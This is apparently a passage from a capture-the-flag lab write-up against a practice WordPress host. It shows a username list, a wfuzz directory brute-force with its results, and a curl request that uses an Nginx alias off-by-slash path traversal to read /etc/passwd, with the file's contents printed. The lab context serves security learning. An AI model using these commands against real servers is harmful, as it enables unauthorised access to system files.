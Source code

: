 `nano wordpressuser.txt`

```bash
everest
montblanc
admin
chooyu
k2
```

`wfuzz -u http://mountaineer.thm/wordpress/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt --hc 404,500,501,502,503 -c -t 100 -L`

```bash
000000003:   403        7 L      10 W       162 Ch      "images"                                                                         
000000018:   403        7 L      10 W       162 Ch      "wp-includes"                                                                    
000000020:   200        0 L      0 W        0 Ch        "wp-content"                                                                     
000000013:   200        101 L    366 W      6486 Ch     "wp-admin"                                                                       
000000400:   200        660 L    2443 W     61843 Ch    "."
```

> **LFI (Local File Inclusion) & Nginx off-by-slash Phase**
> 

**For more information:**

[Nginx | HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nginx#alias-lfi-misconfiguration)

[Common Nginx misconfigurations - Blog Detectify](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/)

`curl -iLX GET -D response.txt http://mountaineer.thm/wordpress/images../etc/passwd`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:38:44 GMT
Content-Type: application/octet-stream
Content-Length: 2499
Last-Modified: Sat, 16 Mar 2024 22:31:14 GMT
Connection: keep-alive
ETag: "65f61db2-9c3"
Accept-Ranges: bytes

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```